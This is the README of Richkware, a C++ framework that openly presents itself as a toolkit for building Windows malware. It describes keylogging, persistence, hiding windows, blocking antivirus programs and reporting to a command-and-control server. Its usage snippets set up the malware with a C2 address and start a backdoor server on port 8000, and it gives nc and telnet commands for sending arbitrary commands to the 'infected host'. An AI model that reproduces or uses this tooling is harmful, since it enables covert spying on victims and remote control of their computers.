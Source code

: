 # Richkware

[![Build status](https://ci.appveyor.com/api/projects/status/1tn6vedeaq0v27ra?svg=true)](https://ci.appveyor.com/project/richkmeli/richkware)

Framework for building Windows malware, written in C++.

## Description

Richkware is a library of network and OS functions, that you can use to create malware.
The composition of these functions permits the application to assume behaviors referable to the following types of malware:

- Virus
- Worms
- Bot
- Spyware
- Keylogger
- Scareware

## Related Projects

[Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server): Service for the management of hosts in which is present an instance of malware developed using **Richkware** framework.

[Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client): Client of **Richkware-Manager-Server**, that it obtains the list of all hosts from the server and it's able to send any kind of commands to them.

![](http://richk.altervista.org/RichkwareDiagram.svg)

## Documentation

|              | EN                          | IT                     |
|--------------|:------------------------------:|:------------------:|
| Presentation | [PDF](http://richk.me/Richkware/doc/EN/Slide.pdf)  | [PDF](http://richk.me/Richkware/doc/IT/Slide.pdf)     |
| Report       | [PDF](http://richk.me/Richkware/doc/EN/Report.pdf) | [PDF](http://richk.me/Richkware/doc/IT/Relazione.pdf) |

## Functions

### Network

- **Server** (*network.h*): module for the management of a multi-thread server, that allow to receive commands from Internet([Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client) or console) according to the specific protocol.
    - **Protocol** (*protocol.h*):
        1. **Remotely command execution** (ID 1)
        2. (work in progress)
- **Network** (*network.h*):
    - **RawRequest**: send a request to a server;
    - **UploadInfoToRichkwareManagerServer**: send information to [Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server)

### System

- **Storage** (*storage.h*):
    - **SaveSession** and **LoadSession**: save the application state(encrypted) to:
        - **Register** (SaveValueReg and LoadValueReg)
        - **File** (SaveValueToFile and LoadValueFromFile)
    - **Persistence**: install itself permanently in the system.
- **IsAdmin** and **RequestAdminPrivileges** (*richkware.h*): check and require administrator privileges;

- **StealthWindow** (*richkware.h*): hide applications;
- **OpenApp** (*richkware.h*): open arbitrary applications;
- **Keylogger** (*richkware.h*): stores in a file all pressed keys;
 - **BlockApps** e **UnBlockApps** (*blockApps.h*): block and unblock applications (antivirus, ...).

### Cryptography

- **Encrypt and Decrypt** (*crypto.h*): [RC4](https://en.wikipedia.org/wiki/RC4) (default), [Blowfish](https://en.wikipedia.org/wiki/Blowfish_(cipher)).
- **Encode and Decode** (*crypto.h*): [Base64](https://en.wikipedia.org/wiki/Base64) (defualt), [Hex](https://en.wikipedia.org/wiki/Hexadecimal#Transfer_encoding).

![](http://richk.altervista.org/RichkwareCryptographyDiagram.svg)

### Other

- **RandMouse** (*richkware.h*): move randomly the mouse cursor;
- **Hibernation** (*richkware.h*): hibernate system.

## Requirements
These are the base requirements to build and use Richkware:

- Make or CMake
- [MinGW](http://www.mingw.org/)

## Get Started
Open main.cpp, and create an instance of Richkware.
### With [Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server)
If you have deployed [RMS](https://github.com/richkmeli/Richkware-Manager-Server), you can initialize the malware as follows:

        int main() {
               Richkware richkware("Richk","DefaultPassword","192.168.99.100", "8080", "associatedUser");
                ...
                return 0;
            }
        
that it gets a secure key from Richkware-Manager-Server and it sets the key as encryption key.
**DefaultPass** is used as temporary encryption key to ensure a secure communication with RMS and if the malware cannot reach the RMS for getting its encryption ket, it will use DefaultPass as encryption key.


### Without [Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server)

Otherwise, if you haven't deployed [RMS](https://github.com/richkmeli/Richkware-Manager-Server), you can use: 
         
     Richkware richkware("Richk","richktest");
         
 in this way, it uses "richktest" as encryption key.
     


## Compile

After **main.cpp** implementation, you can compile as follows.

### Using MinGW for Windows or MinGW cross compiler for Linux build environment

	make

### Using Microsoft C++ compiler (Visual Studio)
- C/C++ > Preprocessor > Preprocessor Definitions, add "\_CRT\_SECURE\_NO\_WARNINGS" 
- Linker > Input > Additional Dependencies, add "Ws2_32.lib"

## Examples of usage
In the following example, we call "**server**", a malware developed using Richkware framework and in which it has been enabled the function for creating a server, and "**client**", the creator(Hacker) of the malware that is trying to establish a connection with the infected PC.

###Server-side

#### Remotely Command Execution

Call framework function **StartServer** in the main, it starts server on a port, in the following example is the TCP port 8000. Remember that if a port is already used by another program, you can't use that port, until the program will be stopped.

	int main () {
	    ...
		richkware.network.server.Start("8000");
        ...
	}

###Client-side

#### Connect using [Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client)
In all systems where the Java Virtual Machine is installed, you can use [Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client), otherwise if it's not present you can easily use a terminal.

#### Connect using terminal in Unix systems

In Unix systems, you can use **netcat**, and run the following command:

	nc <serverName> 8000
	
if the server received the request on the open port and it succeeds to create a connection, it responses to the client confirming the establishment of the connection, after that, you can write:
    
    [[1]]COMMAND
    
where *COMMAND* is a command that has to be executed on the infected host where server is running.

#### Connect using terminal in Windows

In Windows, you can use **telnet**, in the same way:

	telnet <serverName> 8000

...
    
    [[1]]COMMAND
    
